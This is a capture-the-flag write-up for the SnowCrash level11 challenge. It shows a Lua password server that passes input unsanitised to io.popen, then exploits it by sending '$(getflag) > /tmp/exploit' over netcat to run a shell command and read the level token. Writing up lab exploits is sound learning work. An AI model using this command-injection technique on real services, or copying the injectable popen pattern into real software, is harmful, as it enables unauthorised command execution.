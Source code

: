 ## level11

There is a lua file called level11.lua:

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

The program launches a server and asks for a password that is hashed and compared with the correct hashed password. I know the hashed password, and I know the hashing algorithm (sha-1), but reversing the password won't do much good because it won't give me what I want.

The hash function is however exploitable: the `io.popen()` command allows to execute a system command. Here, the program echoes my input. So if I put a system command with a `$` sign so that it is interpreted, I should be able to get the flag. I will need to put it in a file if I want to get the result.

I try to run the program, but I get an error, it looks like the program is already running. I connect to it with netcat: `nc localhost 5151`.

```
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag) > /tmp/exploit
Erf nope..
level11@SnowCrash:~$ cat /tmp/exploit
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

I can now run the `su level12` command and go to the next level using that password.